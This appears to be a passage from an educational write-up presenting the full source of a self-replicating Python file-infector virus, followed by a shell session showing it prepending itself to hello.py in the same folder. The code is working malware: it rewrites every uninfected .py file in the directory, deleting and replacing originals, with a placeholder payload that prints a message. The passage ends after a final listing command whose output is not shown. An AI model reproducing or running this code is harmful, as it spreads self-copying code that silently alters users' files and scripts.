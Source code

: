 The virus code is located between two comments: #Virus:Start and #Virus:End. These comments are intended to know the 
location of the viral code in any file (both infected and original).

Once the functions of the virus have been explained in detail, its final code is as follows:
```python
# Virus:Start
import os
import sys


def infect(virus):
    path = "."
    for file in os.listdir(path):
        if file.endswith(".py"):
            script = open(file, "r")
            text_script = script.read()
            script.close()
            if not "# Virus:Start" in text_script:
                infected = open(file + ".infected", "w")
                infected.write(virus + "\n")
                infected.write(text_script)
                infected.close()
                os.remove(file)
                os.rename(file + ".infected", file)


def payload():
    print("You were infected")


def run(virus):
    infect(virus)
    payload()


host = open(sys.argv[0], "r")
text_host = host.read()
host.close()
virus = text_host[text_host.find("# Virus:Start"):text_host.rfind("# Virus:End") + len("# Virus:End")]
run(virus)
# Virus:End
```

If you run this code in a folder with other files with the .py extension, you will get the following result:
```shell
probasvx@probasvx:~/virus1$ ls -las
total 16
4 drwxr-xr-x  2 probasvx probasvx 4096 Dec 14 11:14 .
4 drwxr-xr-x 23 probasvx probasvx 4096 Dec 14 11:05 ..
4 -rw-r--r--  1 probasvx probasvx   22 Dec 14 11:14 hello.py
4 -rw-r--r--  1 probasvx probasvx  850 Dec 14 11:14 virus.py
probasvx@probasvx:~/virus1$ cat hello.py 
print("Hello world!")
probasvx@probasvx:~/virus1$ python3 virus.py 
You were infected
probasvx@probasvx:~/virus1$ ls -las
total 16
4 drwxr-xr-x  2 probasvx probasvx 4096 Dec 14 11:15 .
4 drwxr-xr-x 23 probasvx probasvx 4096 Dec 14 11:05 ..
4 -rw-r--r--  1 probasvx probasvx  871 Dec 14 11:15 hello.py
4 -rw-r--r--  1 probasvx probasvx  850 Dec 14 11:14 virus.py
probasvx@probasvx:~/virus1$ cat hello.py 
```